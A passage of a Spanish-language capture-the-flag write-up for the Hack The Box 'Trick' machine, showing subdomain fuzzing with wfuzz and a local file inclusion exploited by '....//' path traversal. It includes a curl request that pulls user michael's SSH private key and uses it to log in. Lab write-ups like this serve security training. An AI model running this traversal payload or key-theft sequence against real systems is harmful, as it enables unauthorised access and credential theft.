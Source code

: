```
❯ wfuzz -c --hc=404 --hw=475 -t 150 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: preprod-FUZZ.trick.htb" http://10.10.11.166
```
* -c : coloreado
* --hc : de hide code, oculta código indicado
* --hw : de hide word, oculta número palabras indicadas
* -t : número de hilos, para ir más rápido
* -w : De Wordlist, es decir diccionario.
* -H : de Headers, cabeceras.

Puse --hw=475 porque salían falsos positivos con ese número de palabras.  
Por aquí abajo el resultado de la búsqueda.

![Wfuzz]({{ 'assets/img/writeups/Trick/wfuzz2.png' | relative_url }}){: .center-image }

¡Encontramos  otro subdominio!; preprod-marketing.trick.htb. Lo añadimos al /etc/hosts.

Una vez añadido, ¡al navegador a ver que encontramos!.

![Web-3]({{ 'assets/img/writeups/Trick/web3.png' | relative_url }}){: .center-image }

## Explotación

Desde el código fuente veo que hay un ruta parecida a la otra página, la cual puede derivar a un LFI; `http://preprod-marketing.trick.htb/index.php?page=`  
Probaré las mismas inyecciones que antes a ver si ahora tengo más suerte.  
Y la tengo, con la doble path traversal.

![LFI-2]({{ 'assets/img/writeups/Trick/lfibueno.png' | relative_url }}){: .center-image }

Siempre que veo un usuario en el /etc/passwd,- Recuerda que cuentan los que tienen una bash o sh como terminal, no los que muestran nologin- intento sacar su id_rsa para así poder conectarme por ssh a la máquina objetivo. Veo en la foto anterior un usuario llamado michael, voy a comprobar si tiene id_rsa. La ruta típica de este archivo es /home/USUARIO/.ssh/.id_rsa  
¡Y la tiene!. Voy a realizar la petición con el comando curl por terminal para que me salga mas bonita y ordenada.

```
> curl -X GET "http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//home/michael/.ssh/id_rsa"
```
![Curl]({{ 'assets/img/writeups/Trick/curl.png' | relative_url }}){: .center-image }

Pego el contenido y lo meto a un archivo que llamaré id_rsa. Luego le doy el permiso 600, se suele dar este permiso porque si no da problemas a la hora de conectar por ssh:
```
> chmod 600 id_rsa
```
Ahora ya puedo conectarme mediante esa id_rsa con el usario michael a la máquina objetivo. ¡ueueueue!!!
```
❯ ssh -i id_rsa michael@10.10.11.166
```
Estamos conectados.
